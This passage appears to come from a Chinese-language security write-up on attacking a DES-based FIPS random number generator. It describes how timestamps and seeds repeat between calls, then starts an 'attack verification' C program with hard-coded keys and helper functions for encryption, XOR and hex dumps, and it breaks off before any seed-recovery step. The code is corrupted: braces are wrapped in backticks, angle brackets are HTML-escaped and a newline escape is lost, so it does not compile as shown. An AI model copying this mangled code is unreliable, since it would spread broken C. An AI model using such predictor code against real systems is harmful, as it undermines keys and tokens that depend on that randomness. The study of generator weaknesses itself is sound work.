 时间共64位，小端存储，多次调用仅在微秒时间内发生变化。seed2和下一轮seed1相同。

攻击验证算法代码如下：

```
#include &lt;openssl/des.h&gt;
#include &lt;openssl/rand.h&gt;
#include &lt;openssl/err.h&gt;
#include &lt;sys/time.h&gt;
#include &lt;assert.h&gt;
#include &lt;unistd.h&gt;
#include &lt;string.h&gt;
#include &lt;stdio.h&gt;

static DES_cblock key1;
static DES_cblock key2;
static DES_key_schedule ks1,ks2;

DES_cblock keys[2]=
`{`
    `{` 0x00,0x01,0x02,0x03,0x04,0x05,0x06,0x07 `}`, 
    `{` 0x08,0x09,0x0a,0x0b,0x0c,0x0d,0x0e,0x0f `}`
`}`;

void dump(const unsigned char *b,int n);
void FIPS_set_prng_key(const unsigned char k1[8],const unsigned char k2[8]);
void xor_vectors(unsigned char *in1, unsigned char *in2,
            unsigned char *out, unsigned int size);
static void FIPS_rand_encrypt(unsigned char *out,const unsigned char *in);
static void FIPS_rand_decrypt(unsigned char *out,const unsigned char *in);
int compare_seed(unsigned char *rand1 ,unsigned char *time_buf1, unsigned char *rand2, unsigned char *time_buf2);


void dump(const unsigned char *b,int n)
`{`
    while(n-- &gt; 0)
    `{`
        printf(" %02x",*b++);
    `}`
    putchar('n');
`}`

void FIPS_set_prng_key(const unsigned char k1[8],const unsigned char k2[8])
`{`
    memcpy(&amp;key1,k1,sizeof key1);
    memcpy(&amp;key2,k2,sizeof key2);
    DES_set_key(&amp;key1,&amp;ks1);
    DES_set_key(&amp;key2,&amp;ks2);
`}`

void xor_vectors(unsigned char *in1, unsigned char *in2,
            unsigned char *out, unsigned int size)
`{`
    int i;

    for (i = 0; i &lt; size; i++)
        out[i] = in1[i] ^ in2[i];
`}`

static void FIPS_rand_encrypt(unsigned char *out,const unsigned char *in)
`{`
    DES_ecb2_encrypt(in,out,&amp;ks1,&amp;ks2,1);
`}`

```